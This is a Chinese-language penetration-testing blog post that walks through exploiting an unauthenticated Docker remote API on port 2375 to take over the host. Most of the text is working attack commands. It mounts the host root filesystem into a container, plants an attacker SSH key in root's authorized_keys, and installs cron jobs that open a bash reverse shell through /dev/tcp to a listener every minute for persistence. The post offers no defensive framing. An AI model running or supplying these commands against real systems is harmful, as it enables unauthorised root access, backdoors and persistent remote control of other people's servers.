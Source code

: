 ```yaml
---
title: docker未授权致RCE
date: 2025-02-04
tags:
  - PEN
draft: false
images: ['/static/images/blog/2025/mou.webp']
authors: ['default']
---
```


- 参考谢公子：[Site Unreachable](https://cloud.tencent.com/developer/article/2321247)
- 在实战中遇到了记一下，最终可以直接 ssh 登录 + 反弹 shell 到内网其他主机

## 测试过程

### docker 未授权

nmap 扫描发现 2375 端口开放 docker 服务，测试以下 URL 发现 docker 未授权：

```
http://x.x.x.x:2375/version
http://x.x.x.x:2375/images
http://x.x.x.x:2375/info
```

### docker 远程命令

可以在本地使用命令远程管理 docker：

```bash
docker -H tcp://<IP>:2375 images -a
docker -H tcp://<IP>:2375 ps
docker -H tcp://<IP>:2375 exec -it e7d97caf249d /bin/bash
```

### 获取宿主机权限

容器里面操作没啥意义，关键是要获取宿主机（目标服务器）的权限。

启动一个未开启的容器，然后将**宿主机的磁盘挂载到容器中**：

```bash
docker -H tcp://<IP>:2375 run -it -v /:/opt b76f96a98a27 /bin/bash
```

- `-v /:/opt`：-v 选项的作用是选择挂载卷，此处将宿主机的整个文件系统 `/` 挂载到容器内的 `/opt` 目录下。

**因此，我们可以通过容器内 `/opt` 目录，管理宿主机文件系统。**

### 写入SSH公钥

管理文件系统并不算真正获取权限，但是也快了。

先在本地生成一对 SSH 的公私钥对，然后直接 echo 把 SSH 公钥写入服务器的公钥文件：

```bash
# 本地生成公私钥对
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa
# 默认保存在 ~/.ssh , 私钥是 id_rsa , 公钥是 id_rsa.pub

# 修改服务器文件：进入docker容器挂的宿主机文件系统
cd /opt/root/.ssh/
# echo 写入公钥（id_rsa.pub的内容）
echo "ssh-rsa jdiofjsdoijfosjdsjfosdjfo..." >> authorized_keys
```

- 没有.ssh目录或者 authorized_keys 文件就自己创建一个

服务器写入公钥之后，本地可以直接通过**指定私钥文件**来登录服务器：

```bash
ssh -i ~/.ssh/id_rsa root@<IP>
```

### 持久化

最后做一步权限维持，给宿主机设置**定时任务**。

将反弹 shell 的命令写入 `/var/spool/cron/root` 文件中：

- 也可能是 `/var/spool/cron/crontab/root`

```bash
cd /opt/var/spool/cron
echo "*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/<IPonListening>/4444 0>&1" >> root
```

- 含义是每隔一分钟，反弹一次 shell

假如服务器默认 shell 是 zsh，需要把反弹 shell 命令改成：

```bash
echo "*/1  *  *  *  *   bash -c 'bash -i >& /dev/tcp/<IPonListening>/10341 0>&1'" >> root
```

注意，目标服务器可能出不了网，只能反弹 shell 到内网，需要有一台内网机器，可以之后再由内网机器配置转发到外网。
